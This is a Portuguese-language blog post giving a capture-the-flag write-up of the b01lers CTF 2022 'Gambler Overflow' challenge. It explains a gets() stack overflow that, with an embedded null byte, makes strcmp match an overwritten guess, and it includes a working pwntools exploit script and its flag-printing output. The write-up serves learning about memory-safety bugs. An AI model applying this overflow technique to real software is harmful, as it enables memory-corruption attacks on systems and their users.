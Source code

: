 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

Com o overflow é possível sobreescrever o valor da **Correct Word**:

```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese pode ser confirmada ao se analisar o pseudo código gerado pelo Ghidra da função **casino**, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

<script src="https://gist.github.com/brerodrigues/dfb4567a3b433ad61586db8da2525e6f.js"></script>

Pode se observar na linha 23 que o programa utiliza a função **gets** para obter o input do usuário, como **gets** não se importa com o tamanho do input, possibilita que seja armazenado em **user_input** um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de **user_input** na stack. E logo abaixo de **user_input** na stack está, convenientemente, **correct_guess** com o valor pseudo aleatório gerado no looping iniciado na linha **36**.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de **correct_guess** se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está **correct_guess** e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha **60** existe uma verificação que checka se o valor de **balance** é maior que **1000**. Caso seja, chama uma função que imprime a flag na tela. Como seria possível trapacear, já que controlamos o valor de **correct_guess**?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha **47** é chamada a função **strcmp** para comparar **user_input** e **correct_guess**. **strcmp** foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

**gets**, diferente de **strcmp**, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via **gets** uma string que formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em **strcmp** como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de **correct_guess**.

Aí vai o exploit que escrevi que provavelmente pode ser simplificado em apenas uma linha de código:

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

e rodando:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```
